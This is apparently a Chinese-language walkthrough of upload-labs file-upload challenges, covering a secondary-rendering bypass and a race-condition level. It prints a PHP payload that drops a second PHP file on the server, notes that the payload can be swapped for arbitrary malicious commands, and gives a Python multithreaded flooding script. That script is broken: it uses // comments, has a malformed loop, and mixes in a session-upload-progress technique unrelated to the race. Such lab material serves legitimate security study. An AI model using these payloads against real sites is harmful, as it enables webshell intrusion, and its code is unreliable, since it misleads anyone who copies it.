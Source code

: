 二次渲染：指首先对上传的文件进行某些条件的检测，如果检测通过则使用move_upload_file()函数移动位置生成新的图片。在二次渲染之后会对新生成的图片做文件名随机化处理并以缩略图形式返回前端。

```php
 if(($fileext == "jpg") && ($filetype=="image/jpeg")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefromjpeg($target_path);

            if($im == false){
                $msg = "该文件不是jpg格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".jpg";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagejpeg($im,$img_path);
                @unlink($target_path);
                $is_upload = true;
            }
```

这里比较推荐使用jpg进行二次渲染的绕过。因为png/jpg文件的格式比较负责，而gif只需要检索渲染前后不变的代码位置。

png,jpg图片马的参考：https://www.cnblogs.com/forforever/p/13191999.html

##### Pass-19（条件竞争）

源代码很明显的分成了两部分：第一部分为文件上传代码，第二部分为move_upload_file()之后的文件类型检查。值得注意的是恶意文件在文件检查代码运行完成之后才会被删除，所以可以通过低延迟高并发发包强制访问木马。

```php
<?php fputs(fopen('2.php','w'),'<?php phpinfo();?>');?>
```

（后面的phpinfo()可任意更改其他恶意指令）

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404091545032.png)

通过不停刷新（有可能）能进入页面，可以通过增大文件体积或减小发包时间间隔提升成功概率。

也可以通过python.request来写个脚本运行一下：

除了爬虫常客requests，这里还有一个新的tool:threading，它通过类的方式实现了多线程并发。

```python
import requests
import threading//python3中是_thread,语法基本不变

//因为是本地服务器所以没必要加头文件了，如果有需要直接加就行
URL=""
payload = """<?php fputs(fopen('2.php','w'),'<?php phpinfo();?>');?>"""
def run():
    requests.post(
    url=URL,
    data={'PHP_SESSION_UPLOAD_PROGRESS':payload},
    )
if __name__ == '__main__':
    for i in range(10000)//请根据电脑配置量力而行doge
    T = threading.Thread(target=run,args=())
    T.start()
```
